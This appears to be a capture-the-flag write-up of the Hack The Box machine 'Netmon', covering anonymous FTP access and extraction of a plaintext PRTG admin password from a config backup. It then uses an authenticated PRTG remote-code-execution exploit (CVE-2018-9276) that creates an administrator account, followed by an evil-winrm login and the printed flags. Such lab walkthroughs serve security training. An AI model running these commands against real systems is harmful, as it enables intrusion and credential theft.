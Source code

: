```yaml
---
layout: post
title: Netmon
tags: [OSCP, Writeup, Windows]
description: "Netmon write-up"
---
```


![Netmonlogo](/assets/imgs/netmon/netmon.png)

### This is an easy windows box

## Tools used

------

- 


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA netmon 10.10.10.152 -v

PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7m01s, deviation: 0s, median: 7m01s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-04T09:25:49
|_  start_date: 2020-08-04T08:37:26
```

Here’s what nmap teaches us :

- port 21 (FTP) - Anonymous login
- port 80 (HTTP) - Indy httpd 18.1.37.13946
- port 135 (RPC)
- port 139 (NETBIOS)
- port 445 (SMB) - Windows Server 2008 R2 - 2012

Since the anonymous login is open, let's connect. To go to the FTP I used the browser :

![FTP connected](/assets/imgs/netmon/ftp_connect.PNG)

I see the Users directory, browsing it, I found the user.txt flag !

![FTP flag](/assets/imgs/netmon/ftp.PNG)

Let's see the web port :

![Website](/assets/imgs/netmon/web.PNG)

I need credentials to go further, I found out that the default login is "prtgadmin", now I needed a password. Searching where the password was stored for this software, I stumble upon this [reddit](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) :

```
Automatically generated backups under:
	C:\ProgramData\Paessler\PRTG Network Monitor\Configuration Auto-Backups\

Automatically generated temporary files that may exist:
	C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.old
	C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.nul
```



![Config file prtg](/assets/imgs/netmon/config_files.PNG)



```
wget ftp://10.10.10.152/ProgramData/Paessler/PRTG%20Network%20Monitor/PRTG%20Configuration.old.bak
```





```
strings "PRTG Configuration.old.bak" | grep -i prtgadmin -C 1
            <dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
              
                <login>
                  prtgadmin
                </login>
```



I now have credentials :

```
login : prtgadmin
password : PrTg@dmin2018
```

I tried to connect to the website with those credentials, but it didn't works !





## Exploit

------

Then I remember that the box was release in 2019, so I change the password : PrTg@dmin2019 and it works.

![Website connected](/assets/imgs/netmon/connect_web.PNG)

```
bash prtg-exploit.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=ezRGMjU3MzU5LTJCNDMtNEYzOC05M0EyLUIwNzc4ODQxMzFGOH0="

[+]#########################################################################[+] 
[*] PRTG RCE script by M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] https://github.com/M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution  CVE-2018-9276 [*] 
[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....

 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```



```
evil-winrm -i 10.10.10.152 -u "pentest" -p 'P3nT3st!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\pentest\Documents> whoami
netmon\pentest
```



## Flags

------

### User.txt

```
dd58ce67b49e15105e88096c8d9255a5
```

### Root.txt

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
3018977fb944bf1878f75b879fba67cc
```